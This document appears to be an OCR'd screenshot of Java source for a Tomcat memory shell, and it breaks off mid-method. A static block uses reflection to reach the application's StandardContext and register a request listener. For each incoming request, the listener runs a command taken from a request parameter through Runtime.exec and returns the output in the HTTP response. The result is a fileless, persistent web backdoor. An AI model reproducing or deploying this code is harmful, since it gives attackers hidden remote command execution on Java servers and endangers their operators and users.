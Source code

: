 ```java
    static {
        try {
            // 获取 standardContext
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();

            StandardContext       standardContext;

            try {
                standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            } catch (Exception ignored) {
                Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
                field.setAccessible(true);
                Object root   = field.get(webappClassLoaderBase);
                Field  field2 = root.getClass().getDeclaredField("context");
                field2.setAccessible(true);

                standardContext = (StandardContext) field2.get(root);
            }

            MLTomcatFromThread listener = new MLTomcatFromThread();
            standardContext.addApplicationEventListener(listener);
        } catch (Exception ignored) {
        }
    }

    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        try {
            RequestFacade requestFacade = (RequestFacade) servletRequestEvent.getServletRequest();
            Field         field         = requestFacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request  request  = (Request) field.get(requestFacade);
            Response response = request.getResponse();
            requestInitializedHandle(request, response);
        } catch (Exception ignore) {
        }
    }

    public void requestInitializedHandle(HttpServletRequest request, HttpServletResponse response) throws IOException {
        System.out.println(
                "TomcatShellInject listener.....................................................................");
        String cmd;
        if ((cmd = request.getParameter(cmdParamName)) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            response.getOutputStream().write(stringBuilder.toString().getBytes());
            response.getOutputStream().flush();
```